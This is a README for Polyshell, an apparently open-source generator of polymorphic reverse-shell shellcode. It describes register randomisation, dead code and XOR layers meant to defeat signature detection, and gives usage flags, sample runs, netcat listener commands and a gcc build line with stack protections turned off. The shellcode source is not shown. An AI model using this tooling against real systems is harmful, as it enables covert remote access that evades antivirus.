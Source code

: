 
# Polyshell

Simple polymorphic reverse shell generator.\
\
This tool will randomly choose registry between `r8` to `r15` to handle the different file descriptors for the reverse shell.\
 It will also put some dead code within the shellcode so that none of the generated shell's signatures can't be identical.

```

     ▄▄▄·      ▄▄▌   ▄· ▄▌.▄▄ ·  ▄ .▄▄▄▄ .▄▄▌  ▄▄▌  
    ▐█ ▄█▪     ██•  ▐█▪██▌▐█ ▀. ██▪▐█▀▄.▀·██•  ██•  
     ██▀· ▄█▀▄ ██▪  ▐█▌▐█▪▄▀▀▀█▄██▀▐█▐▀▀▪▄██▪  ██▪  
    ▐█▪·•▐█▌.▐▌▐█▌▐▌ ▐█▀·.▐█▄▪▐███▌▐▀▐█▄▄▌▐█▌▐▌▐█▌▐▌
    .▀    ▀█▄▀▪.▀▀▀   ▀ •  ▀▀▀▀ ▀▀▀ · ▀▀▀ .▀▀▀ .▀▀▀ 

       Simple polymorphic reverse shell generator.

                Vadimador - Ninuuu - t4yki
         https://github.com/Vadimador/polyshell

    
usage: polyshell [-h] [-i IP] [-p PORT] [-e {big,little}] [-n NBXOR] [-b]

optional arguments:
  -h, --help            show this help message and exit
  -i IP, --ip IP        IPv4 Address
  -p PORT, --port PORT  Port to bind
  -e {big,little}, --endian {big,little}
                        Endianness of the target, default=little
  -n NBXOR, --nbxor NBXOR
                        Number of xor to put, default=10
  -b, --build           Compile the C file
```
## Requirements

`python3.X` and additionnaly `gcc` if you desire to compile the C file.


## Installation

```bash
git clone https://github.com/Vadimador/polyshell
cd polyshell
./main.py
```

You can add the polyshell main.py to path one of your PATH to execute it from anywhere.
```
cd polyshell
ln -s $(readlink -f main.py) ~/.local/bin/polyshell
```
    
## Run

### Create a reverse shell and build it

```bash
┌[t4yki@d3v]
└[~]> polyshell -i 127.0.0.1 -p 6666 -b


     ▄▄▄·      ▄▄▌   ▄· ▄▌.▄▄ ·  ▄ .▄▄▄▄ .▄▄▌  ▄▄▌  
    ▐█ ▄█▪     ██•  ▐█▪██▌▐█ ▀. ██▪▐█▀▄.▀·██•  ██•  
     ██▀· ▄█▀▄ ██▪  ▐█▌▐█▪▄▀▀▀█▄██▀▐█▐▀▀▪▄██▪  ██▪  
    ▐█▪·•▐█▌.▐▌▐█▌▐▌ ▐█▀·.▐█▄▪▐███▌▐▀▐█▄▄▌▐█▌▐▌▐█▌▐▌
    .▀    ▀█▄▀▪.▀▀▀   ▀ •  ▀▀▀▀ ▀▀▀ · ▀▀▀ .▀▀▀ .▀▀▀ 

       Simple polymorphic reverse shell generator.

                Vadimador - Ninuuu - t4yki
         https://github.com/Vadimador/polyshell

    
 [!] Shellcode generated!

 [+] Number of xor put : 10
 [+] IPv4 address to connect to : 127.0.0.1
 [+] Port to bind : 6666
 [+] Compiled shellcode : reverse_shell
 [+] Start a listener : nc -lvnp 6666
 ```

 ### Create a reverse shell and modify the number of xor
```bash
┌[Vadimador@d3v] 
└[~]> polyshell -i 127.0.0.1 -p 1024 -n 54 -b


     ▄▄▄·      ▄▄▌   ▄· ▄▌.▄▄ ·  ▄ .▄▄▄▄ .▄▄▌  ▄▄▌  
    ▐█ ▄█▪     ██•  ▐█▪██▌▐█ ▀. ██▪▐█▀▄.▀·██•  ██•  
     ██▀· ▄█▀▄ ██▪  ▐█▌▐█▪▄▀▀▀█▄██▀▐█▐▀▀▪▄██▪  ██▪  
    ▐█▪·•▐█▌.▐▌▐█▌▐▌ ▐█▀·.▐█▄▪▐███▌▐▀▐█▄▄▌▐█▌▐▌▐█▌▐▌
    .▀    ▀█▄▀▪.▀▀▀   ▀ •  ▀▀▀▀ ▀▀▀ · ▀▀▀ .▀▀▀ .▀▀▀ 

       Simple polymorphic reverse shell generator.

                Vadimador - Ninuuu - t4yki
         https://github.com/Vadimador/polyshell

    
 [!] Shellcode generated!

 [+] Number of xor put : 54
 [+] IPv4 address to connect to : 127.0.0.1
 [+] Port to bind : 1024
 [+] Compiled shellcode : reverse_shell
 [+] Start a listener : nc -lvnp 1024
```

### Create a reverse shell but don't build it, just save it to C file.

```bash
┌[Ninuuu@d3v] 
└[~]> polyshell -i 127.0.0.1 -p 4444 -n 88


     ▄▄▄·      ▄▄▌   ▄· ▄▌.▄▄ ·  ▄ .▄▄▄▄ .▄▄▌  ▄▄▌  
    ▐█ ▄█▪     ██•  ▐█▪██▌▐█ ▀. ██▪▐█▀▄.▀·██•  ██•  
     ██▀· ▄█▀▄ ██▪  ▐█▌▐█▪▄▀▀▀█▄██▀▐█▐▀▀▪▄██▪  ██▪  
    ▐█▪·•▐█▌.▐▌▐█▌▐▌ ▐█▀·.▐█▄▪▐███▌▐▀▐█▄▄▌▐█▌▐▌▐█▌▐▌
    .▀    ▀█▄▀▪.▀▀▀   ▀ •  ▀▀▀▀ ▀▀▀ · ▀▀▀ .▀▀▀ .▀▀▀ 

       Simple polymorphic reverse shell generator.

                Vadimador - Ninuuu - t4yki
         https://github.com/Vadimador/polyshell

    
 [!] Shellcode generated!

 [+] Number of xor put : 88
 [+] IPv4 address to connect to : 127.0.0.1
 [+] Port to bind : 4444
 [+] Shellcode at : reverse_shell.c
 [+] Build : gcc reverse_shell.c -o shell -fno-stack-protector -z execstack -no-pie
```